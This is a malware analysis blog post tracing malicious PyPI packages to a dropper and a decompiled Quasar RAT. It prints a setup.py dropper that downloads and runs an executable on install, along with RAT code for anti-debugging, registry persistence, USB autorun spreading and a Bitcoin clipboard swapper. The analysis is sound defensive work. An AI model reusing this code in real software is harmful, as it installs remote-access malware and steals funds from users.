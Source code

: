 ```yaml
---
title: "DreamyOak Quasar Malware"
date: 2023-07-22T14:01:23-05:00
draft: false
series: Malware Analysis
tags: ['python','malware']
summary: "Following the kill chain of a malicious Python package, and decompiling a basic Quasar RAT while rapidly learning some valuable lessons."
---
```


Recently we were flagged for the detection of a threat actor we've seen a few times in the past, DreamyOak. This individual has maintained a fairly consistent presence on the Python Package Index, often using the pseudonym 'Nagogy' to distribute their malware. In the most recent flags, **nagiepy v3.422.0** and **nageir v0.1.2** pinged off of our detection schemas, and were promptly reported and removed. Let's take a deep look into what these files actually are. I'm going to walk through this in the sequence of events that I took during the actual analysis of this script.

## Initial Analysis

```python
import requests
import os
import subprocess
url = '****************/cdn/MEYeniKS.exe'
response = requests.get(url)

with open('windows.exe', 'wb') as f:
    f.write(response.content)
subprocess.run('windows.exe', check=True)
```
Pretty simple dropper script, runs during **setup.py**, drops a file, then runs it. For the uninitiated, **setup.py** is a script used to... well, setup Python packages. PIP interfaces with **setup.py** to determine requirements and information, and as such, allows the arbitrary execution of code contained within **setup.py**. Which means, subsequently, that simply `pip install <package>` would download and run this payload.

But we can do better than just determining this is a dropper, let's dig a little deeper. I went ahead and curled down the executable from the URL and ran it through Detect It Easy. 

```bash
remnux@remnux:~/Malware/nageir$ diec MEYeniKS.exe
PE32
    Library: .NET(v4.0.30319)[-]
    Compiler: VB.NET(-)[-]
    Linker: Microsoft Linker(8.0)[GUI32]
```
Dotnet's are always fun. As an aside, I got to about this point, and spent 30 minutes trying to figure out where the Dotnet SDK was on REMnux, before acquiescing and consulting the documentation, which... let me know that ILSpy, the program I was going to use to disassemble this, was already installed in command line form via `ilspycmd`. Enjoy some schadenfreude. 

Anywhoozit, whack it with the ILSpy bat: `ilspycmd MEYeniKS.exe`. And out pops... well, exactly what we're looking for. I appreciate it when it's easy. 

## Diving into .NET

The first indicator of what exactly I might be looking at came in the form of **QuasarClient**:
```csharp
	internal static class Program
	{
		public static QuasarClient ConnectClient;

		private static ApplicationContext _msgLoop;
```
Quasar is a recognized RAT. Got it by the first line, we're done here, pack it up and send 'em home...

Or not. There's about 20,000 lines of code here. Certainly there's something else going on. Let's dig a little deeper into what in the world DreamyOak has for us. 

```csharp
if (Settings.ANTIDEBUG){
	if (Debugger.IsAttached){
		Process.GetCurrentProcess().Kill();
		}
	if (IsDebuggerPresent()){
		Process.GetCurrentProcess().Kill();
		}
	}
if (Settings.ENABLEANTIVM && IsAntiVM()){
	Process.GetCurrentProcess().Kill();
	}
if (Settings.ENABLEANTISANDBOXIE && DetectSandboxie()){
	Process.GetCurrentProcess().Kill();
	}
```
Well, it's an *attempt* at AntiVM and AntiDebugger. As an aside, it's very entertaining to me just how often we see this in scripts that statically decompile/disassemble. Your program cannot possibly check if there's a debugger if... I'm not using one. Anyway, moving right along. Side note, I tried to make this a little more human readable. I can assure you that... significant author liberties have been taken in reformatting this code to be less offensive.

```csharp
if (Settings.STARTUPPERSISTENCE){
	Thread thread2 = new Thread((ThreadStart)delegate{
		while (true){
			try{
				if (!keyExists(Settings.STARTUPKEY)){
					RegistryKeyHelper.AddRegistryKeyValue((RegistryHive)(-2147483647), "Software\\Microsoft\\Windows\\CurrentVersion\\Run", Settings.STARTUPKEY, ClientData.CurrentPath, addQuotes: true);
				}
			}
			catch{
			}
			Thread.Sleep(5000);
		}
	});
	thread2.IsBackground = true;
	thread2.Start();
```
Well neato, we've got some registry persistence and with a nice long sleep to make sure we're continually adding it in the event that the registry is restored but the malware itself is not removed. That'll be a little spookier later on. 

```csharp
if (Settings.ENABLEUSBSPREAD){
	Thread thread3 = new Thread((ThreadStart)delegate{
		SpreadUSB();
	});
	thread3.IsBackground = true;
	thread3.Start();
}
if (Settings.ENABLEBTCSWAP){
	Thread thread4 = new Thread((ThreadStart)delegate{
		BTCSWAPPERRUN();
	});
	thread4.IsBackground = true;
	thread4.Start();
```
USB Spread? Well that's interesting, we'll discuss that later. Elsewhere, we see BTCSWAP is going to be a generic cryptoclipper. I'm not going to spend a whole lot of time talking about that, but it essentially simply finds valid BTC addresses in your clipboard and replaces them with the malware author's BTC address instead, thus resulting in you sending them money. 

Let's talk about USB Spread though. 
```csharp
private static void SpreadUSB(){
	//IL_001a: Unknown result type (might be due to invalid IL or missing references)
	//IL_0020: Invalid comparison between Unknown and I4
	DriveInfo[] drives = DriveInfo.GetDrives();
	foreach (DriveInfo val in drives){
		if (!val.get_IsReady() && (int)val.get_DriveType() != 2){
			continue;
		}
		try{
			string text = val.get_Name() + "autorun.inf";
			string text2 = val.get_Name() + Settings.USBSpreadNAME + ".exe";
			if (File.Exists(text)){
				File.Delete(text);
			}
			if (File.Exists(text2)){
				File.Delete(text2);
			}
			using StreamWriter streamWriter = new StreamWriter(new FileStream(text, FileMode.Create, FileAccess.Write));
			streamWriter.WriteLine("[AutoRun]");
			streamWriter.WriteLine("action=" + Settings.USBSpreadNAME + ".exe");
		}
		catch{
		}
	}
}
```
So I consulted with some ~~random people on the internet and Google~~ experts and they revealed to me that this *shouldn't* actually work. But on the premise that I think it's cute, this attempts to write itself to connected USB devices and instantiate the script via an **autorun.inf** by replacing the current autorun scripts. Does it work? Eh-- I don't think out of the box. But if the device is already trusted, this may be used to swap the payload on the device and thus work as expected. Like I said, cute.

Other than that, there isn't anything shocking in here, I thought this got some fail points though. 
```csharp
AES.SetDefaultKey(ENCRYPTIONKEY);
TAG = AES.Decrypt(TAG);
VERSION = AES.Decrypt(VERSION);
HOSTS = AES.Decrypt(HOSTS);
SUBDIRECTORY = AES.Decrypt(SUBDIRECTORY);
INSTALLNAME = AES.Decrypt(INSTALLNAME);
MUTEX = AES.Decrypt(MUTEX);
STARTUPKEY = AES.Decrypt(STARTUPKEY);
LOGDIRECTORYNAME = AES.Decrypt(LOGDIRECTORYNAME);
USBSpreadNAME = AES.Decrypt(USBSpreadNAME);
BTCAddress = AES.Decrypt(BTCAddress);
```
Encrypted host information is typically problematic for us-- it would be nice to be able to get the values of the-- oh. Wait. 

```csharp
public static string ENCRYPTIONKEY = "CN2muEFrSR3WC5IfEA2p";
```
Never mind, we're good. A quick scroll through the program reveals more or less a lot of the function definitions and not much of interest that wouldn't just be me talking about coding in general, so I'll keep it brief and cut it off here.

## Afterthoughts
It's about now as I'm writing this that another team member has managed to track down some additional information about what, exactly I'm decompiling. And as anticipated (or rather, shown to me) in line 1, this is indeed a simple Quasar RAT. Fun exercise though! 

Lessons Learned: 
- Google the payload name you found on line 1 so you don't waste your time.
- Prebuilt RE distributions are cool but locating tools requires an iota of brainpower. 
- If a function exists overtly named "BTCSWAPPERRUN", the functions probably tell you what everything does.
- Hard-coded AES keys are really cool and everyone should use them in their malware.
